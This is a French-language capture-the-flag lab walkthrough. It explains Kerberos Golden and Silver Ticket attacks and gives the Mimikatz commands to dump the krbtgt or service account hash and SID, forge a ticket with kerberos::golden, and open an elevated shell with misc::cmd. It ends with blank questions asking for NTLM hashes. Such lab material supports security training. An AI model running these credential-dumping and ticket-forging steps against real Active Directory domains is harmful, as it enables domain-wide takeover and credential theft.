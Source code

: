 ----
  
### Golden/Silver Ticket avec Mimikatz
  
Cette fois nous allons utiliser mimikatz afin de créer dans un premier temps **un Silver ticket**.

- Un Silver Ticket peut parfois être mieux utilisé dans les engagements de pentest plutôt qu'un Golden Ticket car il est un peu plus discret.  
- Si la furtivité et le fait de ne pas être détecté sont importants, un Silver Ticket est probablement une meilleure option qu'un Golden Ticket, mais l'approche pour en créer un est exactement la même. 
- **La principale différence entre les deux tickets est qu'un ticket silver est limité au service ciblé alors qu'un ticket golden a accès à n'importe quel service Kerberos**.

**Exemple de Scénario**

- Un scénario d'utilisation spécifique pour un Silver Ticket serait que vous souhaitiez accéder au serveur SQL du domaine, mais votre utilisateur compromis actuel n'a pas accès à ce serveur.   
- Vous pouvez trouver un compte de service accessible pour tenter le kerberoasting de ce service, vous pouvez ensuite dumper le hachage du service, puis emprunter l'identité de leur TGT afin de demander un ticket de service pour le service SQL du KDC vous permettant d'accéder au serveur SQL du domaine.

**Présentation de KRBTGT**

- Afin de bien comprendre le fonctionnement de ces attaques, vous devez comprendre quelle est la différence entre un KRBTGT et un TGT.    
- **Un KRBTGT est le compte de service du KDC.** Il s'agit du centre de distribution de clés qui délivre tous les tickets aux clients. Si vous usurpez l'identité de ce compte et créez un Golden Ticket du KRBTGT, vous vous donnez la possibilité de créer un ticket de service pour tout ce que vous voulez !!!  
-  Un TGT est en revanche un ticket pour un compte de service émis par le KDC et ne peut accéder qu'à ce service dont le TGT provient(comme le ticket SQLService).

**Aperçu de l'attaque par Golden/Silver ticket -**

Une attaque par Golden/Silver Ticket fonctionne en dumpant le ticket d'octroi de ticket (TGT) de n'importe quel utilisateur sur le domaine, (celui d'un administrateur de domaine est toujours préférable)  
- Pour un Golden Ticket, **vous dumperiez le ticket krbtgt** 
- pour un Silver Ticket, **vous dumperiez le ticket n'importe quel service ou administrateur de domaine**.
- Cela vous fournira le SID ou l'identifiant de sécurité du compte d'administrateur de service/domaine qui est un identifiant unique pour chaque compte d'utilisateur, ainsi que le hachage NTLM.  
- Vous utilisez ensuite ces détails dans une attaque par Golden Ticket mimikatz afin de créer un TGT qui usurpe l'identité des informations de compte de service données.

---

**Procédons à l'attaque**

## dumpez le hash du krbtgt

1.) ```cd downloads && mimikatz.exe``` - accédez au répertoire dans lequel se trouve mimikatz et exécutez mimikatz

2.) ```privilege::debug``` - assurez-vous que ces sorties [privilege '20' ok]

3.) ```lsadump::lsa /inject /name:krbtgt``` - Cela dumpera le hachage ainsi que l'identifiant de sécurité nécessaire pour créer un Golden Ticket. Pour créer un Silver Ticket, vous devez modifier le /name : pour vider le hachage d'un compte d'administrateur de domaine ou d'un compte de service tel que le compte SQLService.

Note : on peut également spécifier un service dans cette commande après le switch name   
Exemple : `/name:sqlservice`

<img src="https://imgur.com/BSh4rXy.png"/>

## Créer un ticket golden/silver 

1.) ```Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:``` 
  C'est la commande pour créer un Golden ticket. 
  Pour créer un Silver ticket il suffit de mettre un hash NTLM de service dans le krbtgt slot, le sid du compte de service en sid, et changez l'id en 1103.

Ci dessous vous voyez la création d'un Golden Ticket. 
A vous de créer un Silver Ticket !

<img src="https://imgur.com/6HnEnwi.png"/>

## Utilisez le Golden/Silver Ticket pour accéder à d'autres machines

1.) ```misc::cmd``` - cela ouvrira une nouvelle invite de commande élevée avec le ticket donné dans mimikatz.

<img src="https://imgur.com/rh06qDl.png"/>


2.) Accédez aux machines que vous voulez, ce à quoi vous pouvez accéder dépendra des privilèges de l'utilisateur à qui vous avez décidé de prendre le ticket.   
- si vous avez pris le ticket de krbtgt, vous avez accès à TOUT le réseau d'où le nom golden ticket.  
- les Silver Ticket n'ont accès qu'à ceux auxquels l'utilisateur a accès s'il s'agit d'un administrateur de domaine, il peut presque accéder à l'ensemble du réseau, mais il est légèrement moins élevé qu'un Golden Ticket.

<img src="https://imgur.com/VOEsU4O.png"/>

Cette attaque ne fonctionnera pas sans d'autres machines sur le domaine, mais vous pouvez tenter de la configurer sur votre propre réseau local et d'essayer ces attaques.

**Répondre aux questions ci-dessous**
  
Quel est le hash du SQLService NTLM ?
```
reponse : 
```
  
Quel est le hash du Administrateur NTLM ?
```
reponse : 
```

  
